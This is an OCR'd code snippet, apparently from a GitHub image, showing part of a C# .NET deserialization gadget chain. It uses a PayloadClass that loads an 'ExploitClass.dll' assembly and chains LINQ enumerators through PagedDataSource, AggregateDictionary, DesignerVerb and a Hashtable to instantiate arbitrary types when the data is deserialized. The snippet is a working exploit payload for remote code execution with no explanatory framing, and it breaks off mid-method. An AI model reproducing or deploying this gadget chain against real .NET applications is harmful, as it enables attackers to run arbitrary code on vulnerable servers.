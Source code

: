 ```bash
            {
                Type t = Type.GetType("System.Workflow.ComponentModel.Serialization.ActivitySurrogateSelector+ObjectSurrogate, System.Workflow.ComponentModel, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35");
                return (ISerializationSurrogate)Activator.CreateInstance(t);
            }

            return base.GetSurrogate(type, context, out selector);
        }
    }

    [Serializable]
    public class PayloadClass : ISerializable
    {
        public byte[] GadgetChains()
        {
            System.Diagnostics.Trace.WriteLine("In GetObjectData");

            List<byte[]> bytesFile = new List<byte[]>();

            bytesFile.Add(File.ReadAllBytes(@"C:\Windows\Microsoft.NET\Framework\v4.0.30319\ExploitClass.dll"));




            var e1 = bytesFile.Select(Assembly.Load);
            Func<Assembly, IEnumerable<Type>> MyGetTypes = (Func<Assembly, IEnumerable<Type>>)Delegate.CreateDelegate(typeof(Func<Assembly, IEnumerable<Type>>), typeof(Assembly).GetMethod("GetTypes"));
            var e2 = e1.SelectMany(MyGetTypes);
            var e3 = e2.Select(Activator.CreateInstance);

            // PagedDataSource maps an arbitrary IEnumerable to an ICollection
            PagedDataSource pds = new PagedDataSource() { DataSource = e3 };
            // AggregateDictionary maps an arbitrary ICollection to an IDictionary 
            // Class is internal so need to use reflection.
            IDictionary dict = (IDictionary)Activator.CreateInstance(typeof(int).Assembly.GetType("System.Runtime.Remoting.Channels.AggregateDictionary"), pds);

            // DesignerVerb queries a value from an IDictionary when its ToString is called. This results in the linq enumerator being walked.
            DesignerVerb verb = new DesignerVerb("XYZ", null);
            // Need to insert IDictionary using reflection.
            typeof(MenuCommand).GetField("properties", BindingFlags.NonPublic | BindingFlags.Instance).SetValue(verb, dict);

            // Pre-load objects, this ensures they're fixed up before building the hash table.
            List<object> ls = new List<object>();
            ls.Add(e1);
            ls.Add(e2);
            ls.Add(e3);
            ls.Add(pds);
            ls.Add(verb);
            ls.Add(dict);

            Hashtable ht = new Hashtable();

            // Add two entries to table.
            ht.Add(verb, "Hello");
            ht.Add("Dummy", "Hello2");

```